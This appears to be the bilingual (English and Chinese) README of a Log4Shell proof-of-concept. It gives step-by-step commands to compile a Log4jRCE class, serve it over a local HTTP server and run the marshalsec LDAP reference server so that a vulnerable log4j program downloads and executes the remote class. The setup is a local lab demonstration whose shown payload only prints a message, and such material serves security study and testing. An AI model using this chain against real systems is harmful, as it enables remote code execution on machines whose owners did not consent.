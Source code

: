 ### Steps
1. 【Important】***Move*** Log4jRCE.java to /home/remote/Log4jRCE.java, or any other directories except apache-log4j-poc.

2. Compile Log4jRCE.java and start http server
   1. `cd /home/remote`
   2. `javac Log4jRCE.java`
   3. start http server，python or php，`php -S 127.0.0.1:8888`

3. Start ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. start ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
   
4. Start log4j.java, then you can see `I am Log4jRCE from remote!!!`


### 触发步骤
1. 【重要】将Log4jRCE.java **挪出** 当前项目目录，比如挪到/home/remote/Log4jRCE.java，不然log4j.java运行时会读取到本地的Log4jRCE.java，就不走http远程下载了！

2. 编译Log4jRCE.java并启动http server
   1. 进入目录 `cd /home/remote`
   2. 编译 `javac Log4jRCE.java`
   3. 启动http server，python或php均可快速启动，如`php -S 127.0.0.1:8888`

3. 启动ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. 启动ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
4. 启动log4j.java，然后就会发现命令行出现了`I am Log4jRCE from remote!!!`。底层就是会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

